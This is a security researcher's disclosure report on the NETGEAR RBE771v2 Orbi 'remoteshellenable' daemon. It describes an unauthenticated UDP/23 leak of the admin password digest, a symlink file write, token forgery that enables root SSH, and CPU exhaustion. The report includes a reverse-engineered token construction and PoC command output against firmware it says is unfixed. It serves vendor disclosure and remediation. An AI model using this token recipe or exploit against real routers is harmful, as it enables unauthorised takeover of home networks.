



# NETGEAR RBE771v2 (Orbi): remoteshellenable Unauthenticated UDP/23 Root Write of Admin Password SHA-256 Digest (/tmp/httpwd 0644) — Local Privilege-Escalation Chain, Symlink Arbitrary File Write and CPU-Exhaustion DoS

- **Report date**: 2026-10-05
- **Vendor**: NETGEAR, Inc. (PSIRT)
- **Status**: Unfixed in the latest released firmware

---

## Summary

The `remoteshellenable` daemon on NETGEAR RBE771v2 (Orbi 970 series) binds `0.0.0.0:23/UDP` and, **for every received datagram — before any token verification — executes a helper script as root that writes the SHA-256 digest of the admin password to `/tmp/httpwd` with mode 0644**, then deletes it a few milliseconds later (RUNTIME_OBSERVED against the real daemon process). Three chained defects result:

1. **Digest disclosure race**: a local low-privilege process floods UDP/23 (or any LAN host triggers it) and polls `/tmp/httpwd`, reliably reading the admin password SHA-256 digest → offline password cracking, or direct token forgery (see below).
2. **Symlink arbitrary file write**: the root shell redirection follows a pre-planted `/tmp/httpwd` symlink and overwrites an arbitrary file with the digest (verified; the cleanup `rm` removes only the link).
3. **CPU-exhaustion DoS**: each unauthenticated packet costs two root `vfork`+`exec` rounds (shell + `fnvram`, plus `/bin/rm`), serialized at ~190 packets/s — a sustained unauthenticated load generator on the real (weak ARM) hardware.

**Honest scope**: from a pure LAN-remote position an attacker can only *trigger* the root write (digest on disk for ~6 ms per packet); *reading* the file requires a local low-privilege foothold (e.g. any sandboxed/co-resident process). The leaked digest is also the **only** secret needed to forge the daemon's "enable SSH" token — we verified end-to-end that a forged token is answered with `ACK` and triggers `/etc/init.d/sshd start`. So the chain is: LAN packet → local race-read digest → forge token → root SSH enabled.

## Affected Products, Models and Versions

| Product | Hardware / Board | Firmware | Status |
|---|---|---|---|
| NETGEAR RBE771v2 (Orbi 970, satellite) | all hardware revisions | `RBE771v2-V12.1.7.23.chk` (latest release as of this report) | **Verified vulnerable** (real-process dynamic verification in ARM chroot + qemu-user) |
| NETGEAR RBE770v2 (router, same image family) | — | same release train | Likely affected (same `remoteshellenable` package), not separately retested |

## Technical Details (Root Cause)

Binary: `/usr/sbin/remoteshellenable` (ARM 32-bit musl PIE, stripped). Main loop (all offsets from objdump of the shipped binary):

1. `recvfrom(512)` at `0xcf4` on a UDP socket bound to `0.0.0.0:23` (no `SO_BINDTODEVICE`; WAN exposure depends on firewall rules).
2. **At `0xd1c` — before any cryptographic check — it calls its exec helper (`0x1e88`: `vfork` + `execve` + blocking `wait4`) to run `/usr/sbin/ssh_update_ntgr.sh`**, which does:
   ```sh
   echo `get_password_digest` > /tmp/httpwd    # fnvram get http_passwd_digest, uppercased
   ```
   i.e. the admin password SHA-256 hex lands in a root-owned **0644** file on every single unauthenticated packet.
3. Only then (`0xd2c`) does it build the *expected* token (`0x22c8`): reads `/tmp/httpwd` back, formats `MAC + "admin" + digest`, MD5s it, Blowfish-ECB-encrypts, `memcmp`s against the received datagram (`0xd48`), and finally execs `/bin/rm /tmp/httpwd`.
4. On token match it runs `/etc/init.d/sshd start` (again via `vfork`+`wait4`) and replies with a 3-byte `ACK` (`sendto` at `0xd80`).

Token format (reverse-engineered from ASM, runtime-verified — a forged token was accepted):

```
key        = b"AMBIT_TELNET_ENABLE+" + digest          # 84 bytes (NOTE: '+')
md5_input  = mac12hex + \0*4 + "admin" + \0*11 + digest64 + \0*16   # 112 bytes
plaintext  = MD5(md5_input) + mac12hex + \0*4 + "admin" + \0*11
             + digest64 + zero-padding                 # 248 bytes total
token      = Blowfish-ECB(plaintext)                   # blocks = two LE u32 words;
                                                       # key bytes cycled mod 84
digest     = uppercase SHA-256 hex of the admin password (= /tmp/httpwd content)
MAC        = br-lan MAC, 12 uppercase hex chars, no colons
```

The 84-byte key exceeds the Blowfish specification limit (56 bytes), so off-the-shelf libraries (e.g. pycryptodome) refuse it; the firmware key schedule simply cycles key bytes `mod len(key)`. The attached exploit embeds a pure-Python implementation using the standard P/S constants (identical to the binary's `.rodata` copy at `0x26a8`/`0x26f0`).

Because the token contains **no nonce and no timestamp**, it is also replayable — but more importantly, **the digest alone (no plaintext password) is sufficient to forge it**, which is exactly what defect 1 leaks.

## Proof of Concept / Reproduction Steps

Environment note: verification was done against the **real daemon process** from the released firmware, running in an ARM chroot under qemu-user on the released rootfs (with an `nvram` shim supplying `http_passwd_digest`; `br-lan` dummy interface for the daemon's `SIOCGIFHWADDR`). The attached exploit is Python 3 stdlib-only (`exploit_l1_remoteshellenable.py`).

### (1) Garbage packet + local race-read of /tmp/httpwd (`--race`)

```
$ python3 exploit_l1_remoteshellenable.py --race --path /tmp/httpwd --timeout 10 --count 2
[*] flooding garbage 248B UDP datagrams to 127.0.0.1:23, polling /tmp/httpwd ...
[+] CAUGHT /tmp/httpwd: mode=0644 owner=0:0 size=0
[+] content: 6D45CF27BFB8567B5088783B927201A10FA0AD17B59469A2240DFE3BB48893EF
[+] CAUGHT /tmp/httpwd: mode=0644 owner=0:0 size=65
[+] content: 6D45CF27BFB8567B5088783B927201A10FA0AD17B59469A2240DFE3BB48893EF
[+] CONFIRMED: unauthenticated UDP packet made root write the admin
    password SHA-256 digest to /tmp/httpwd (0644). 2 catch(es).
```

(Random 248-byte datagrams — *not* valid tokens — trigger the root write every time. The digest shown is the seeded test admin-password SHA-256.)



### (2) Symlink arbitrary file write (`--symlink`)

```
$ ssh iot "cd /home/iotsec-zone/rbe771_work/tmp && echo iot | sudo -S sh -c 'echo SENTINEL > poc_target' && echo iot | sudo -S python3 /tmp/exploit_l1_remoteshellenable.py --symlink poc_target --path /home/iotsec-zone/rbe771_work/tmp/httpwd"
[sudo] password for iotsec-zone: ***
[*] planted symlink /home/iotsec-zone/rbe771_work/tmp/httpwd -> poc_target
[*] symlink still present: False
[*] target before: b'SENTINEL\n'
[*] target after : b'6D45CF27BFB8567B5088783B927201A10FA0AD17B59469A2240DFE3BB48893EF\n'
[+] CONFIRMED: root followed the low-priv symlink and overwrote poc_target
```

(Content is fixed to the digest; the daemon's `/bin/rm` deletes only the symlink.)



### (3) Token forgery with the leaked digest (`--digest` / `--password`)

```
$ ssh iot "echo iot | sudo -S python3 /tmp/exploit_l1_remoteshellenable.py --digest 6D45CF27BFB8567B5088783B927201A10FA0AD17B59469A2240DFE3BB48893EF --mac 7a:51:c6:1f:df:d0 --timeout 20"
[sudo] password for iotsec-zone: [*] building token: key='AMBIT_TELNET_ENABLE+'+digest, mac=7a:51:c6:1f:df:d0
[*] token ready (248 bytes), sending to 127.0.0.1:23
[+] REPLY from ('127.0.0.1', 23): b'ACK'
[+] CONFIRMED: forged token accepted (ACK). Probing sshd on tcp/22 ...
[+] sshd is UP on 127.0.0.1:22, banner: b'SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.17\r\n'
```

(In the emulation the tcp/22 banner is the lab host's sshd; the meaningful observables are the `ACK` reply and the concurrently strace-confirmed execution of `/etc/init.d/sshd start` by the daemon. On real hardware the probe would reach the router's own sshd, whose RSA host-key generation can take a while.) Garbage datagrams never receive a reply (negative control, repeatedly verified).



### (4) DoS observation

2,000 back-to-back 248-byte datagrams: the daemon drains serially at ≈190 pkt/s (synchronous `vfork`+`wait4`, at most one child at any time — **no fork bomb**; the earlier static "fork-bomb" hypothesis was tested and refuted), lab VM load 0.47→0.70. On the target's ARM SoC, ~200 unauthenticated packets/s of root shell+`fnvram` spawns is a significant sustained CPU consumer and continuously widens the defect-1 race window.

**Expected vs. actual behavior**

| | |
|---|---|
| **Expected** | Pre-authentication packets cause no privileged side effects; password-derived secrets are never written world-readable; root redirections never follow unprivileged symlinks; expensive work happens only after authentication. |
| **Actual** | Every unauthenticated UDP/23 datagram makes root write the admin password SHA-256 to a world-readable predictable path, follows symlinks while doing so, and burns two root fork/exec rounds per packet. The same digest later serves as the sole secret of the SSH-enable token. |

## Security Impact

- **Credential-material disclosure**: any co-resident low-privilege process (or any guest/app code execution) recovers the admin password SHA-256 with ~100% reliability → offline brute-force of weak admin passwords.
- **Remote service escalation**: the digest alone forges the SSH-enable token (verified `ACK` + `sshd start`), turning the leak into remote root shell enablement; tokens are replayable (no nonce).
- **Arbitrary file write as root** (content fixed to digest) via symlink — e.g. corrupting configs or single-line-sensitive files.
- **Unauthenticated CPU-exhaustion DoS** on the management daemon and the SoC.

## Recommended Fix

1. Run `ssh_update_ntgr.sh` **only after** the token `memcmp` succeeds — pre-auth packets must have zero privileged side effects.
2. If the digest must transit a file: write it `0600` with `open(O_NOFOLLOW|O_CREAT|O_EXCL)` (never via shell `>` redirection), on a root-only directory, and remove the world-readable window entirely.
3. Add a nonce/timestamp to the token to kill replay, and do not let the long-term password digest double as the token secret.
4. Bind the socket to the LAN interface (`SO_BINDTODEVICE`), and rate-limit per-source processing.
5. Audit sibling models built from the same codebase (RBE770v2 and other Orbi 970 units ship the same package).

## Mitigation for End Users (until a fix ships)

No GUI switch disables `remoteshellenable`. Block UDP/23 from untrusted LAN segments/guest WLANs at the switch/AP level where possible, choose a strong unique admin password (limits offline cracking value of the leaked digest), and keep untrusted devices off the LAN/WLAN.

## Attachments

- `exploit_l1_remoteshellenable.py` — one-click PoC, Python 3 stdlib only: `--race` (digest race-read), `--symlink TARGET` (arbitrary file write), `--password/--digest` (token forgery → ACK → sshd probe).

## Researcher Contact & Credit

- **Name**: 【Lumina】
- **Contact**: 【1547800591@qq.com】

---
